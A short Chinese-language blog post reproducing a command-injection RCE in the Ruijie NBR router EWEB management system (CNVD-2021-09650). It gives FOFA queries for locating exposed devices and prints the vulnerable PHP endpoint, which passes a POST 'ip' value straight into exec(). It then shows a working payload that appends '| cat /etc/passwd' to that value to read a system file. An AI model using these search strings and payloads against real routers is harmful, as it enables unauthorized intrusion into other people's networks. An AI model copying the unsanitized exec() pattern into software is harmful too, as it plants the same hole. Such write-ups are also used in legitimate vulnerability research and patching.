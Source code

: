 ```yaml
---
title: Ruijie-NBR-router-RCE
tags:
  - 漏洞复现
categories:
  - 漏洞复现
copyright: true
abbrlink: 43bd18b
date: 2021-07-12 23:44:55
---
```


![](https://z3.ax1x.com/2021/07/13/WFHmrV.jpg)

<!--more-->

锐捷NBR路由器 EWEB网管系统 远程命令执行漏洞 CNVD-2021-09650

HW漏洞，锐捷NBR路由器 EWEB网管系统部分接口存在命令注入

**验证**

fofa  `title="锐捷网络-EWEB网管系统"` 或者 `icon_hash="-692947551"`

登录页面这样子：

![img](https://z3.ax1x.com/2021/07/13/WFHRZ8.png)

出现漏洞的文件在 `/guest_auth/guestIsUp.php`

```php
<?php
    //查询用户是否上线了
    $userip = @$_POST['ip'];
    $usermac = @$_POST['mac'];

    if (!$userip || !$usermac) {
        exit;
    }
    /* 判断该用户是否已经放行 */
    $cmd = '/sbin/app_auth_hook.elf -f ' . $userip;
    $res = exec($cmd, $out, $status);
    /* 如果已经上线成功 */
    if (strstr($out[0], "status:1")) {
        echo 'true';
    }
?>
```

可以通过命令拼接的方式构造命令执行，如：`ip=127.0.01 | cat /etc/passwd`

![img](https://z3.ax1x.com/2021/07/13/WFHWdS.png)

**Reference**

http://wiki.peiqi.tech/PeiQi_Wiki/%E7%BD%91%E7%BB%9C%E8%AE%BE%E5%A4%87%E6%BC%8F%E6%B4%9E/%E9%94%90%E6%8D%B7/%E9%94%90%E6%8D%B7NBR%E8%B7%AF%E7%94%B1%E5%99%A8%20EWEB%E7%BD%91%E7%AE%A1%E7%B3%BB%E7%BB%9F%20%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20CNVD-2021-09650.html

